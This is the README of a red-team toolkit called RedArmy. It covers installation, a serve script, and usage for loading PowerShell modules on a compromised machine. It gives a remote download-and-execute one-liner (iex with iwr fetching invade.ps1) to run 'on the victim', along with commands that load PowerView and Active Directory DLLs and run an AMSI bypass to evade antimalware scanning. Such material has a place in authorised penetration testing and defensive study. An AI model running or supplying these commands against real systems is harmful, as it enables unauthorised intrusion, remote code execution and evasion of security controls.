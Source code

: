 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ git submodule update --init --recursive
$ git submodule foreach git checkout master # optional
$ git submodule foreach git pull # optional
```

## Configuration

RedArmy uses `config.default` by default. You can copy it to `config`
and delete or add lines as necessary.

## Usage

```
$ ./serve [--port PORT] [--update] <ip>
```

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

- `iex (iwr -DisableKeepAlive -UseBasicParsing
  http://<ip>:<port>/invade.ps1)`

That command will also displayed for you to copy and paste for
convenience.

### Examples

- Load ps1 script into current session
    - `iex (Get-PowerView)`
- Load ps1 script into session
    - `Deploy-PowerView <session>`
- Load DLL object into current session
    - `Import-ADModuleDLL`
- Load DLL object into session
    - `Deploy-ADModuleDLL <session>`
- Run ps1 script
    - `Invoke-AMSIBypass`
- Run ps1 script in session
    - `Deploy-AMSIBypass <session>`

**Note:** `Invoke` commands are generally for things that aren't
scope specific such as modifying system settings.
